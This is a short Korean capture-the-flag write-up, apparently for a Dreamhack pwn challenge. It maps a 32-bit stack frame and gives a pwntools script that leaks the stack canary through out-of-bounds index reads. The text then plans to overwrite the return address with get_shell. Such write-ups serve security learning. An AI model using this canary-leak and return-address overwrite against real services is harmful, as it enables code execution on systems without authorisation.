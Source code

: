 ![image (5)](https://github.com/user-attachments/assets/ea4c8a05-c422-43d5-9cb5-812e47f0f428)

box가 8*4*4 인 128바이트만큼 할당되어있다  
근데 128바이트 크기만큼 할당된건지 name이랑 합쳐진 뒤에 오는건지 잘 모르겠어서 name에도 값을 넣어봤다

![image (6)](https://github.com/user-attachments/assets/dc4d8af3-afcf-4986-a8cb-ab37092c337e)

box에 HHHH .. 를 넣고   
name에 FFFFFFFF을 넣었는데 0xffffcc0c 지점에 잘 들어간걸 볼수있다  

그럼 이 함수는

| box (64바이트) |
| --- |
| name (64바이트) |
| 카나리 (4바이트) |
| sfp (4바이트) |
| 리턴 주소 (4바이트) |

리턴주소가 오는 구조임을 알았으므로  
맞춰서 코드를 작성해보겠다  

```python
from pwn import *

def slog(n, m): return success(': '.join([n, hex(m)]))

p = remote('host3.dreamhack.games',19693)

context.arch = "i386"

canary = b""

for i in range(128, 132):
    p.sendlineafter(b'> ', b'P')
    p.sendlineafter(b'Element index : ', str(i).encode())
    line = p.recvline()
    byte = int(line.strip().split()[-1], 16)
    canary += p8(byte)

print("[+] Leaked Canary:", canary.hex())
```

이렇게 작성하면

![image (7)](https://github.com/user-attachments/assets/a9a2e86e-1de0-45e9-8d0d-bc4e17415abe)

카나리 값이 나온다  
그럼 그냥 name에 읽은 카나리값까지 추가해서 리턴 주소를 get_shell로 바꾸면 될거같다

![image (8)](https://github.com/user-attachments/assets/b9adc76a-0594-4fa2-92e5-7b9b1a5e49ae)
